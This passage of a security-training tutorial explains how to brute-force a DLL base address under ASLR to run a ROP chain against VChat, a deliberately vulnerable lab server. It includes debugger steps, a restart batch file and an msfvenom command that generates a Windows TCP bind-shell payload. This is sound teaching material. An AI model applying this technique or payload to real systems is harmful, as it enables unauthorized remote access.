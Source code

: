 This ROP chain is the basis for the brute forcing of gadget locations. This is because, even when ASLR is enabled, the offset of the code within the DLL remains the same no matter where in memory the DLL is loaded. So by varying the base address assuming you have correctly calculated the offset, we will eventually get the correct base address leading to a successful execution of the ROP chain to call into `VirtualProtect(...)`.

We can verify this ROP chain and our gadget offsets by modifying our exploit code to reflect [exploit0.py](SourceCode/exploit0.py) and running it against VChat. *Remember* to modify the ROP chain and base address! We are *not verifying* that the chain successfully sets the registers here you can follow the instructions in [VChat_TRUN_ROP](https://github.com/DaintyJet/VChat_TRUN_ROP) to do this, as we will only be verifying that we have the correct offsets.

1. Click on the black button highlighted below, and enter the address we decided on in the previous step(s).

    <img src="Images/I19.png" width=600>

2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250129D`, the address of our `RETN` instruction.

    <img src="Images/I20.png" width=600>

3. Attack VChat using the [exploit0](./SourceCode/exploit0.py) program and step through the ROP chain to ensure that it has been constructed properly.

    https://github.com/DaintyJet/VChat_Brute_Force/assets/60448620/001e199c-0874-4224-8eee-dea220ce3160


### Automatically Restart vchat.exe when it crashes
While brute-forcing the base address of the DLL, some bad guesses will crash the target VChat process. We need to write a simple *batch* (bat) file for VChat to restart it automatically, this will simplify the exploitation process.

Create and run the [restart.bat](./SourceCode/restart.bat) batch file. For this to work, the batch file and *vchat.exe* need to be in the same directory.
 ```
 @echo off
:start
start /w "" "vchat.exe"
goto start
 ```

### Create and run the attack script
Now, we can modify the exploit program to brute force the base address of the target DLL.

1. Generate shellcode using [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) and so it can be added to our shellcode.

	```sh
	$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
	```
      * `msfvenom`: [Metasploit](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) payload encoder and generator.
      * `-p windows/shell_bind_tcp`: Specify we are using the TCP bind shell payload for Windows.
      * `RPORT=4444`: Specify the Receiving (Remote) port is 4444.
      * `EXITFUNC=thread`: Exit process, this is running as a thread.
      * `-f python`: Format the output for use in a Python program.
      * `-v SHELL`: Specify SHELL variable.
      * `-b '\x00'`: Set bad characters.
